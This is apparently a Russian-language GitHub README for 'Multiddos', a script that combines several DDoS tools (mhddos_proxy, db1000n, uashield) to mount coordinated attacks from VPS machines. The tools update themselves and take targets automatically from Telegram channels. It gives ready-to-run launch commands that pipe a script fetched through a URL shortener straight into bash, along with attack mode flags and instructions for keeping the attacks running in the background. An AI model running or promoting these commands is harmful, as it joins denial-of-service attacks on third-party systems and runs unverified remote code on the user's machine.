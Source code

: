 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos) (ранее известный как auto_mhddos) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать именно этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше. 

## Выбор режима
<details>
  <summary>развернуть</summary>
  

В программе доступно 3 основных режима. -m1, -m2, -m3, по количеству запускаемых утилит.

* `-m1` запускает только  Multiddos (обвертка для mhddos_proxy от Украинского жнеца)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m1 && tmux a
```

* `-m2` запускает Multiddos + db1000n (этот режим используется по умолчанию)
```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m2 && tmux a
```
* `-m3` запускает Multiddos + db1000n + uashield (на данный момент не рекомендуется, так как эффективность uashield не ясна, он дублирует атаки по тем же целям, что и утилиты выше, и часто вылетает)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m3 && tmux a
```
* `--matrix` режим матрицы (эффект матрицы в небольшом окне). Был добавлен в режиме тестирования, позже решили оставить как опцию.

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti --matrix && tmux a
```
 
</details>

## Запуск в фоне

То же самое что и обычный запуск, но без автоматического подключения к сессии Tmux. То есть программы будут запущены как обычно, но не будут выведены на экран. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.


## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.